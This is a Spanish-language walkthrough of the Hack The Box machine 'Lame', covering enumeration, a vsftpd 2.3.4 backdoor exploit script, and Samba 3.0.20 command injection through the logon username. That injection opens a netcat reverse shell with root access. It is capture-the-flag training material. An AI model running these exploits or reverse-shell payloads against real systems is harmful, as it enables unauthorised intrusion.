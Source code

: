 ```yaml
---
layout: post
title: HTB_Lame
date: 2023/07/10
---
```


# Lame {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se llama Lame.

El replay del live se puede ver aqui

[![S4vitaar Lame maquina](https://img.youtube.com/vi/MNJi4k9uNKQ/0.jpg)](https://www.youtube.com/watch?v=MNJi4k9uNKQ)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.3
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.3
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```


| Puerto | Servicio | Que se nos occure?          | Que falta?           |
| ------ | -------- | --------------------------- | -------------------- |
| 21     | ftp      | Conexion como Anonymous     |                      |
| 22     | ssh      | Conneccion directa          | usuario y contraseña |
| 139    | smbd     | Conneccion con Null session |                      |
| 445    | smbd     | Conneccion con Null session |                      |
| 3632   | distccd  | Web, Fuzzing                |                      |



### Conexion Anonymous con ftp {-}

```bash
ftp 10.10.10.3

Name: anonymous
Password: 

Login successful

ls
```

Podemos connectar como anonymous pero no nos reporta nada. El resultado de nmap nos da que el vsftpd es de version 2.3.4.


## Vulnerability Assessment {-}

### vsftpd 2.3.4 {-}

Miramos si existe un exploit para este servicio.

```bash
searchsploit vsftpd 2.3.4
```

Vemos que hay una vulnerabilidad y que existe un exploit. Como el exploit es une exploit Metasploit, vamos buscando por
la web si existe otro exploit y la encontramos en [cherrera0001 github](https://github.com/cherrera0001/vsftpd_2.3.4_Exploit).

```python
#!/usr/bin/python3
from pwn import log,remote
from sys import argv,exit
from time import sleep

if len(argv) < 2:
    exit(f'Usage: {argv[0]} Target_IP')


p = log.progress("Running")
vsftpd = remote(argv[1], 21)

p.status('Checking Version')
recv = vsftpd.recvuntil(")",timeout=5)
version = (recv.decode()).split(" ")[2].replace(")","")
if version != '2.3.4':
	exit('2.3.4 Version Not Found')

vsftpd.sendline('USER hii:)')
vsftpd.sendline('PASS hello')
p.status('Backdoor Activated')

sleep(3)

backdoor = remote(argv[1], 6200)
p.success("Got Shell!!!")
backdoor.interactive()
```

Si lanzamos el script no funcciona, parece ser que la version a sido parcheada -> rabbithole. 

### SAMBA 3.0.20 {-}

```bash
searchsploit samba 3.0.20
```

Vemos que hay un exploit para Metasploit que permite ejecutar commandos. Examinamos el script con el commando `searchsploit -x 16320` y vemos
que podemos injectar commandos desde el nombre de usuario con el formato siguiente

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

Vamos a por pruebas

1. Nos ponemos en escucha de trazas ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c "dir"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1"
    smb: \> logon "/='nohup ping -c 1 10.10.14.7'"
    ```

Vemos que esto functionna perfectamente. Vamos a ganar accesso al systema.
## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad SAMBA 3.0.20 {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.7 443`"'
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `whoami` vemos que ya estamos root ;) No se necessita escalar privilegios en este caso.
